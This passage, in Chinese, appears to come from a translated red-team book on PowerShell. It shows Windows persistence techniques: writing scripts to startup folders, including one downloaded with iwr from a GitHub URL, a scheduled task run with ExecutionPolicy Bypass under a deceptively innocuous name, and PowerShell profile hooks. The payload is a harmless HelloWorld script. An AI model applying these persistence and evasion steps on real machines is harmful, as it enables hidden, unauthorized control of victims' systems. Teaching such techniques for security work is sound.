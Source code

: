#### 解决方案

你可以将你的脚本添加到以下启动文件夹之一：

+   **$****env:PROGRAMDATA\Microsoft\Windows\Start Menu\Programs\Startup**

+   **$****env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup**

+   **$****env:ALLUSERSPROFILE\Microsoft\Windows\Start Menu\Programs\StartUp**

你可以直接将其下载到启动文件夹中，如下所示：

```
$path = "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup"
if( -Not (Test-Path -Path $path )) {
        New-Item -ItemType directory -Path $path
}
iwr -Uri "https://raw.githubusercontent.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/master/Chapter01/HelloWorld.ps1" -OutFile "$path\HelloWorld.ps1"
```

或者，你可以创建一个新文件并填充内容：

```
$path = "$env:PROGRAMDATA\Microsoft\Windows\Start Menu\Programs\Startup\HelloWorld.ps1"
New-Item -Path $path -ItemType File
Add-Content -Path $path -Value "Write-Host 'Hello World!'"
```

### 使用计划任务建立持久性

你想通过使用计划任务来建立持久性。

#### 解决方案

你可以使用**schtasks**来创建一个计划任务：

```
> schtasks /create /tn "NotSuspiciousAtAll" /tr "powershell.exe -ExecutionPolicy Bypass -File C:\windows\system32\HelloWorld.ps1" /sc onstart
```

**/create** 参数表示你想要创建一个新的计划任务。使用**/tn**，你可以指定任务名称。红队成员和攻击者通常会尝试选择一个不会引起怀疑且如果蓝队调查时容易被忽视的名称。使用**/tr**，你可以指定在执行该计划任务时应运行的命令；**/sc** 定义任务的执行时间。在这种情况下，任务被设置为每次系统启动时执行。

### 使用 PowerShell 配置文件建立持久性

你想通过 PowerShell 配置文件来建立持久性。此方法较难被检测到，但如果在 PowerShell 启动时指定了 **-noprofile**，你的脚本将不会运行；然而，使用此方法也意味着它只有在用户运行 PowerShell 时才会触发——而在很多情况下，用户可能永远不会运行 PowerShell。

#### 解决方案

PowerShell 支持每个用户的配置文件，这意味着每个用户都有自己的配置文件，一旦他们启动 PowerShell 会话，就会加载该配置文件。这些配置文件通常存储在 **C:\Users\<USERNAME>\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1** 下。

如果你想将内容添加到当前用户的配置文件中，可以使用 **-Path $Profile** 并添加你的脚本或命令：

+   将脚本添加到当前配置文件：
